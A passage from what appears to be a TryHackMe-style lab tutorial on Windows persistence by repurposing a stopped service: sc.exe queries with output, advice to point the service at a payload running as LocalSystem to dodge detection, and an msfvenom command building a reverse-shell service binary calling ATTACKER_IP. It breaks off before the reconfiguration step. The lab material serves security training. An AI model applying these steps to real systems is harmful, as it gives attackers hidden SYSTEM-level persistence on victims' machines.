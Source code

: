 ### Modifying existing services

While creating new services for persistence works quite well, the blue team may monitor new service creation across the network. We may want to reuse an existing service instead of creating one to avoid detection. Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.

You can get a list of available services using the following command:

```shell-session
C:\> sc.exe query state=all
SERVICE_NAME: THMService1
DISPLAY_NAME: THMService1
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

You should be able to find a stopped service called THMService3. To query the service's configuration, you can use the following command:

```shell-session
C:\> sc.exe qc THMService3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2 AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\THMService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMService3
        DEPENDENCIES       : 
        SERVICE_START_NAME : NT AUTHORITY\Local Service
```

There are three things we care about when using a service for persistence:

* The executable (**BINARY\_PATH\_NAME**) should point to our payload.
* The service **START\_TYPE** should be automatic so that the payload runs without user interaction.
* The **SERVICE\_START\_NAME**, which is the account under which the service will run, should preferably be set to **LocalSystem** to gain SYSTEM privileges.

Let's start by creating a new reverse shell with msfvenom:

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

To reconfigure "THMservice3" parameters, we can use the following command:
